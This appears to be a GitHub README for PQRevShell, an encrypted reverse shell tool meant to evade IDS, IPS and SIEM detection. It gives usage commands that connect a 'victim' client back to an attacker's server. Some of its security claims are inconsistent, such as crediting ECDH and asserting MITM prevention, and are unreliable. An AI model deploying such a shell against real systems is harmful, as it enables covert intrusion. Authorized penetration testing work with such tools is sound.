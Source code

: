 Work In Progress WIP.
All credits to OusCyb3rH4ck.

# PQRevShell
PQRevShell is a **secure reverse shell tool** that utilizes **ML-KEM (aka Kyber)** for secure key exchange and **Chacha20 encryption** to ensure encrypted communication between a client and a server. This project demonstrates a robust and secure way to establish a command execution environment, where commands issued by the server are securely transmitted to the client and executed, with responses being sent back in an encrypted format.

By leveraging **ML-KEM + HKDF** for key exchange and **Chacha20 encryption**, this tool is designed to bypass traditional security systems such as **Intrusion Detection Systems (IDS), Intrusion Prevention Systems (IPS), and Security Information and Event Management (SIEM)** systems, making it a powerful tool for penetration testing in environments with strict monitoring.

### **Key Features:**
- **ML-KEM Key Exchange:** Post-Quantum Secure key exchange using ML-KEM to prevent Man-in-the-Middle (MITM) attacks.
- **HKDF Key Derivation:** Derives a secure Chacha20 key and IV using HMAC-based Key Derivation Function (HKDF).
- **Chacha20:** Encrypts all communication between the client and server.
- **Client-Server Architecture:** Reverse shell functionality with encrypted command execution.
- **Resistance to MITM:** ECDH ensures that even if an attacker intercepts the communication, they cannot decrypt the data.
- **Bypass of IDS/IPS/SIEM:** Chacha20 encryption hides the command and control traffic, making it difficult to detect by network monitoring systems.

### **How It Works:**
1. **Key Exchange:**
   - The server and client generate their own ML-KEM key pairs (private and public keys).
   - They exchange their public keys and compute a shared secret.
   - The shared secret is used to derive a secure Chacha20 key and IV using HKDF.

2. **Encrypted Communication:**
   - All commands and responses are encrypted with Chacha20.
   - The server sends encrypted commands to the client, which decrypts and executes them.
   - The client sends the encrypted output back to the server.

3. **Secure Execution:**
   - The client executes commands in a secure environment and returns the encrypted output to the server.

## **Installation**
1. Install dependencies:
   ```bash
   sudo apt update && sudo apt install -y python3-pip
   python3 -m pip install --upgrade cryptography
   ```

2. Clone the repository:
   ```bash
   git clone https://github.com/JuanPardos/PQRevShell
   cd PQRevShell
   ```

3. Make the scripts executable:
   ```bash
   chmod +x client.py server.py
   ```

## **Usage**

#### **Server (attacker):**
Start the server (attacker) with the desired IP and port:
```bash
./server.py -i 0.0.0.0 -p 443
```

#### **Client (victim):**
Connect the client (victim) to the server:
```bash
./client.py -s SERVER_IP -p PORT
```

### **Security Features**
- **ML-KEM Key Exchange:** Prevents MITM attacks by securely exchanging keys.
- **HKDF Key Derivation:** Ensures unique and secure keys for each session.
- **Chacha20 Encryption:** Encrypts all communication to protect against eavesdropping.
- **No Manual Key Sharing:** Keys are exchanged securely without manual intervention.

### **Disclaimer**
This tool is intended for **educational purposes** and **authorized penetration testing** only. Do not use it for malicious purposes. The authors are not responsible for any misuse of this tool.

### **Contributing**
Contributions are welcome! If you have any suggestions, improvements, or bug fixes, feel free to open an issue or submit a pull request.

### **Author**
- [OusCyb3rH4ck](https://github.com/OusCyb3rH4ck)
